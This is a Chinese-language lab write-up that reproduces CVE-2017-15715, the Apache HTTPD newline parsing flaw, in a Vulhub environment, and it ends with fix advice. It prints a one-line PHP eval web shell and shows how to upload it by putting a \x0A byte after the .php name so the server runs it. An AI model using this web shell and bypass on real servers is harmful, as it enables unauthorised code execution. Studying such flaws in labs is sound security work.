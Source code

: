 # Apache HTTPD-换行解析漏洞（CVE-2017-15715）



| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-15715                                               |
| 漏洞名称 | Apache HTTPD 换行解析漏洞                                    |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 2.4.0~2.4.29                                                 |
| 漏洞描述 | 在解析PHP时，`1.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略 |
| 修复方案 | 对上传文件重命名<br>过滤.php后缀文件<br>设备升级             |



### 1.1、漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，`1.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

### 1.2、漏洞等级



### 1.3、影响版本

Apache HTTPD  2.4.0~2.4.29

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/CVE-2017-15715

---

启动测试环境：

```bash
sudo docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:{端口}/`即可看到

![image-20230907164237775](./imgs/image-20230907164237775.png)

#### 2、漏洞扫描

![image-20230907170145860](./imgs/image-20230907170145860.png)

#### 3、漏洞验证

上传一句话木马`1.php`，`bp`拦截数据包

```php
<?php
@eval($_REQUEST[6868]);
phpinfo();
?>
```

![image-20230907170329858](./imgs/image-20230907170329858.png)

![image-20230907170351526](./imgs/image-20230907170351526.png)

修改数据包



![image-20230907170619263](./imgs/image-20230907170619263.png)

将1.php后面的`\0x2e`换成一个`\x0A`（注意，不能是`\x0D\x0A`，只能是一个`\x0A`）

![image-20230907170720854](./imgs/image-20230907170720854.png)

点击`Send`，返回响应码`200`

访问刚才上传的`/1.php%0a`，发现能够成功解析，但这个文件不是php后缀，说明目标存在解析漏洞

![image-20230907170825273](./imgs/image-20230907170825273.png)

![image-20230907171022402](./imgs/image-20230907171022402.png)



### 1.5、深度利用

#### GetShell

![image-20230907171108952](./imgs/image-20230907171108952.png)

![image-20230907171137312](./imgs/image-20230907171137312.png)

### 1.6、修复建议

- 上传文件重命名
- 禁止.php这样的文件执行
- 升级版本